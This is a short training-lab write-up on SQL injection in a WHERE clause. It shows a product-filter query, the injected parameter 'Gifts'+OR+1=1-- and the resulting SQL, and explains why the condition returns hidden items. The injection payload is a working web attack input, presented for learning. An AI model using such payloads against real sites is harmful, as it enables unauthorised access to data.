 # Lab #1: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

SQL query carried by application
```
SELECT * FROM products WHERE category = 'Gifts' AND released = 1`
```

URL for product category
```
https://websec.net/filter?category=Gifts
https://websec.net/filter?category=Accessories
```

Modified Parameter
```
category=Gifts'+OR+1=1--
category=Accessories'+OR+1=1--
```

Proccessed SQL query:
```
SELECT * FROM products WHERE category = 'Gifts' OR 1=1--' AND released = 1

SELECT * FROM products WHERE category = 'Accessories' OR 1=1--' AND released = 1
```

The modified query will return all items where either the category is Gifts, or 1 is equal to 1. Since 1=1 is always true, the query will return all items. 